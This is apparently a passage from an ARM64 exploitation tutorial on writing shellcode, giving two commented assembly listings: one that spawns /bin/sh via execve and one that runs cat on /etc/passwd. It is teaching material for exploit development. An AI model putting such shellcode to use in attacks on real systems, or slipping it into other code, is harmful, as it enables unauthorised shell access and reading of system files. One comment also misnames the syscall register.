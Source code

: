 {% tab title="with adr for linux" %}
```armasm
; From https://8ksec.io/arm64-reversing-and-exploitation-part-5-writing-shellcode-8ksec-blogs/
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:    
    adr  x0, sh_path  ; This is the address of "/bin/sh".
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.    
    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
{% endtab %}
{% endtabs %}

#### Read with cat

The goal is to execute `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, so the second argument (x1) is an array of params (which in memory these means a stack of the addresses).

```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
    ; Prepare the arguments for the execve syscall
    sub sp, sp, #48        ; Allocate space on the stack
    mov x1, sp             ; x1 will hold the address of the argument array
    adr x0, cat_path
    str x0, [x1]           ; Store the address of "/bin/cat" as the first argument
    adr x0, passwd_path    ; Get the address of "/etc/passwd"
    str x0, [x1, #8]       ; Store the address of "/etc/passwd" as the second argument
    str xzr, [x1, #16]     ; Store NULL as the third argument (end of arguments)
    
    adr x0, cat_path
    mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
    mov x16, #59           ; Load the syscall number for execve (59) into x8
    svc 0                  ; Make the syscall


cat_path: .asciz "/bin/cat"
.align 2
passwd_path: .asciz "/etc/passwd"
```
